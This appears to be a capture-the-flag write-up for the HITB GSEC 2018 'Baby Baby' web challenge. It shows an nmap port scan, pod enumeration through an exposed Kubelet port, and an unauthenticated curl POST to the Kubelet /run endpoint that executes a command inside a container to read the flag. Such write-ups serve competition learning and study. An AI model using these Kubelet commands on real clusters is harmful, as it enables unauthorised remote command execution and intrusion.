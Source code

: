 ```yaml
---
title: "HITB GSEC Qualifiers 2018 - Baby Baby (Web)"
header:
  overlay_image: /assets/images/hitbgsecquals2018/babybaby/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Sam Goodgame on Unsplash"
tags:
  - hitbgsecquals2018
  - writeup
  - web
---
```


An exposed Kubelets port in a vulnerable deployment allows an attacker to run
commands without authentication remotely within containers.

## Challenge Description

```
This is a pentest challenge, target 47.75.146.42

http://47.75.146.42
```

#### Points

487 Points

22 Solved

## Solution

First, we scan the machine for exposed ports.

```shell
$ nmap -p- 47.75.146.42

Starting Nmap 7.60 ( https://nmap.org ) at 2018-04-14 00:44 +08
Nmap scan report for 47.75.146.42
Host is up (0.047s latency).
Not shown: 65527 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   closed https
2333/tcp  closed snapp
3389/tcp  closed ms-wbt-server
8009/tcp  closed ajp13
9999/tcp  open   abyss
10250/tcp open   unknown

Nmap done: 1 IP address (1 host up) scanned in 119.33 seconds
```

The port 10250 looks interesting and after a poking at it for a bit, we can
evoke a response from it.

```shell
curl -k https://47.75.146.42:10250/stats/
{
  "name": "/",
  "subcontainers": [
   {
    "name": "/docker"
   },
   {
    "name": "/kubepods"
   },
   {
    "name": "/system.slice"
   },
   {
    "name": "/user.slice"
   }
  ],
  "spec": {
   "creation_time": "2018-04-13T04:42:43.504+08:00",
   "has_cpu": true,
   "cpu": {
    "limit": 1024,
    "max_limit": 0,
...
```

It's the Kubelet service. Turns out that you can run commands in the containers
with this. (https://github.com/kayrus/kubelet-exploit) First, we need to get
the namespace, pod name, and container name.

```shell
curl -k https://47.75.146.42:10250/runningpods/ | jq
...
    {
      "metadata": {
        "name": "web-test-4092782360-035qx",
        "namespace": "esn-system",
        "uid": "a8f7e307-3e14-11e8-838a-00163e0245e7",
        "creationTimestamp": null
      },
      "spec": {
        "containers": [
          {
            "name": "web-test",
            "image": "127.0.0.1:5000/esn-containers/web_test@sha256:ae129fcd94b
d2978db37050f95c62311f5bf9fdbba25817e6e8a098db3a168cf",
            "resources": {}
          }
        ]
      },
      "status": {}
    },
```

From the above, we can see that:

* Namespace: esn-system
* Pod Name: web-test-4092782360-035qx
* Container Name: web-test

Now, we can run commands on the remote webserver:

```shell
curl -k -XPOST \
"https://47.75.146.42:10250/run/esn-system/web-test-4092782360-035qx/web-test" \
-d "cmd=cat /flag.txt"
HITB{KKKKKKKKKKKKKKKKKKKKKKKKK}


DO NOT MODIFY ANYTHING.
WE WILL BAN YOUR TEAM IF YOU CHANG FLAG, DELETE FILES, ETC.

如果你修改、删除文件，我们会 ban 掉你 :D
```

Flag: **HITB{KKKKKKKKKKKKKKKKKKKKKKKKK}**
